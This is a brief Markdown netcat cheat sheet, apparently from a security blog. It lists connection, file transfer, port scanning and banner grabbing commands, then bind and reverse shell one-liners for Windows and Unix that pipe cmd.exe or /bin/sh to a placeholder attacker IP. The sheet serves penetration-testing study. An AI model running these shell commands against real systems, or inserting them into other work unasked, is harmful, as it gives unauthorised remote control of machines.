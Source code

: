 ```yaml
---
title:  "Netcat Cheat Sheet"
header: "Netcat Cheat Sheet"
categories: 
  - Cheatsheet
tags:
  - Netcat
---
```


Usage
-----
Insert picture here


Basic
-----
**TCP Port - Connecting**
`nc -nv <IP> <PORT>`

**TCP Port - Listening**
`nc -lvp <PORT>`

**Connect and return HTTP Page**
`nc -nv <IP> 80`
`HEAD / HTTP/1.1`

**File Transfer**
`nc -lvp 4444 > output.txt # Receiving End`
`nc -nv <IP> < input.txt # Sending End`

**Port Scanning**
`nc -z <IP> <PORT RANGE>`

**Banner Grabbing**
`echo "" | nc -nv -w1 <IP Address> <Ports>`

Windows
-----
**Bind Shell**
`nc -lvp 4444 -e cmd.exe`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443 # Attacking Machine - Waiting for shell`
`nc -nv <IP> 443 -e cmd.exe # Target Machine - sending shell`

Nix
-----
**Bind Shell**
`nc -lvp 4444 -e /bin/sh`
`nc -nv <IP> 4444 # Connect to the shell`

**Reverse Shell**
`nc -lvp 443`
`nc -nv <IP> 443 -e /bin/sh`

Additional Resources
-----
[SANS Netcat Cheat Sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
[Wikipedia](https://en.wikipedia.org/wiki/Netcat)
